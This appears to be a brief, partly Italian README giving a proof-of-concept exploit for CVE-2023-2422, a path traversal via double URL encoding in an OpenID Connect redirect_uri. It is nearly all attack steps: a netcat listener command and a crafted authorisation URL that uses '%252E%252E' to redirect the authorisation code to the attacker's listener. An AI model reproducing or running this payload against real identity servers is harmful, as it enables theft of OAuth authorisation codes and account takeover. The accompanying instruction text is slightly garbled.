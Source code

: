# CVE-2023-2422 Path Traversal Vulnerability via Double URL Encoding

Aviare un listener appare il code

```shell
$ nc -lvnp 1234
```

Nel browser visitare il seguente url e loggarsi

```shell
https://localhost:4200/realms/winted/protocol/openid-connect/auth?
client_id=winted-web&
redirect_uri=https%3A%2F%2Flocalhost%3A4200%2Flogin
%2f%252E%252E%2fvuln?
url=http%3A%2F%2Flocalhost%3A1234&
response_mode=fragment&
response_type=code&scope=openid
```
